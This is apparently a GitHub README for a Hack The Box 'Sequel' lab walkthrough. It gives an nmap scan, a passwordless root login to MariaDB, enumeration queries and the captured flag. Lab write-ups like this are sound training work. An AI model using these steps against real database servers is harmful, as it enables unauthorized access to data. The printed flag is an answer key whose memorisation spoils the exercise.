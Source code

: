 # HTB “Sequel” MariaDB Exploit

Directly access the MariaDB service on the Sequel machine to enumerate and retrieve the flag.

## Quick Start

```
git clone https://github.com/keyfive5/obsidiansignal-htb-sequel.git
cd obsidiansignal-htb-sequel
bash scripts/enum-mysql.sh 10.129.28.113
```

# Prerequisites
mysql-client (MariaDB or MySQL)

HTB VPN connection

# Repo Layout
writeup/ – Markdown & PDF report

scripts/enum-mysql.sh – Bash automation

screenshots/ – proof of each step

articles/ – Dev.to markdown

# Lab Steps
Scan: nmap -sC -sV -p3306 $IP

# Connect: mysql --ssl -h $IP -u root --skip-ssl

Enumerate:

SHOW DATABASES;
USE htb;
SHOW TABLES;
SELECT * FROM config;
Flag: 7b4bec00d1a39e3dd4e021ec3d915da8

Connect
Dev.to: https://dev.to/keyfive5

Twitter: https://twitter.com/keyfive5

LinkedIn: your‑linkedin‑url

“Looking for paid DB pentests or cloud‑infra security engagements? Let’s chat!”
